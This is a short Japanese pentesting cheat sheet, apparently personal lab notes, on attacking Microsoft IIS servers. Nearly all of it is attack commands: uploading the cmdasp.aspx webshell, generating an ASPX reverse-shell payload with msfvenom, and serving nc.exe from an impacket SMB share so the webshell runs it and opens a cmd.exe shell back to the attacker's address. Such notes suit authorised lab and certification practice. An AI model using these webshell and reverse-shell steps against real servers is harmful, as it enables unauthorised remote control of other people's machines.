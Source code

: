 # IIS

FTPで共有されているディレクトリを直接読むことができる場合がある。

ASP、ASPXが動作しやすい

ホームディレクトリ

```
C:\inetpub\wwwroot\
```

### webshell

```
cp /usr/share/webshells/aspx/cmdasp.aspx . 
```

http://10.11.1.13:4167/cmdasp.aspxなどのURLでアクセスする

![image-20230225172834316](img/IIS/image-20230225172834316.png)

### リバースシェル(aspx)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=4444 -f aspx > reverse.aspx
```



#### smbserver + webshell (nc.exeやaspxのリバースシェルがうまく実行しない場合）

```cmd
# kali
cp /usr/share/doc/python3-impacket/examples/smbserver.py ./
sudo /etc/init.d/smbd stop 
mkdir share			# 共有ディレクトリを作成
cp nc.exe share/	# 実行したいexeファイルをshare配下に移動
sudo python smbserver.py share smb	#smbサーバーを起動
```

```cmd
# webshellで実行
\\192.168.45.241\share\nc.exe -e cmd.exe 192.168.45.241 4444
\\<kaliのip>\share\nc.exe -e cmd.exe <kaliのip> 4444
```

